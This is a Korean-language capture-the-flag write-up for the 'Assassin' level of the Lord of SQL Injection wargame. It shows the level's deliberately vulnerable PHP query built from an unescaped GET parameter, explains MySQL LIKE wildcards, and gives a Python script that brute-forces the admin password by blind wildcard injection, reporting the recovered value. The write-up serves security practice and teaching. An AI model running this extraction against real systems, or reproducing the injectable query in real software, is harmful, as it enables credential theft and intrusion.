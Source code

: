 # Lord of SQL Injection No.15 - Assassin
## 문제 출제 의도
1. MySQL의 와일드 카드 이해 여부 확인.
## 소스 코드
~~~
<?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
    $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    if($result['id'] == 'admin') solve("assassin"); 
    highlight_file(__FILE__); 
?>
~~~
## 분석 결론
+ 금지 문자, 문자열
    - Get 방식으로 받은 pw값에  '(single quote)가 있다면 "No Hack ~_~"이 출력되고 문제 풀이에 실패한다.
+ 풀이 성공 조건
    - 데이터베이스에서 받은 값이 'admin' 이면 문제 해결에 성공한다.
## 문제 해결
1. Blind SQL Injection.
    - LIKE 와일드 카드
        1. % =  ~%로 사용하면 ~까지 일치하는 문자열은 모두 해당된다. 즉 ~값만 같으면 %이후의 값은 중요하지 않다.
        2.  _ = 해당하는 글자만큼의 와일드카드이다. "_"를 사용한 만큼의 문자만 적용된다.
    - 다음과 유사한 코드를 이용하여 pw 값을 알아 낼 수 있다.
    ~~~
    import urllib.request
    from urllib.parse import quote

    key = ""
    for i in range(1, 9):
        buf=chr(0)
        for j in range(48, 91):
            url = "http://los.eagle-jump.org/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php?pw="
            data = "{}%".format(key+chr(j))
            print(data)
            # data = quote(data)

            re = urllib.request.Request(url + data)
            re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36") 
            re.add_header("Cookie", "PHPSESSID=3q0e1uadocute8g1nvp6u7l6k1")
            res = urllib.request.urlopen(re)
            result=str(res.read())

            if  result.find("Hello admin") != -1:
                key += chr(j).lower()
                print(key)
                buf=str(1)
                break

            elif result.find("Hello guest") != -1:
                buf=chr(j).lower()

        if buf != str(1):
            key += buf
    print(key)
    ~~~
    - 이는 "832edd10"을 출력한다.
    - 이를 GET방식으로 pw에 입력하면 문제가 해결된다.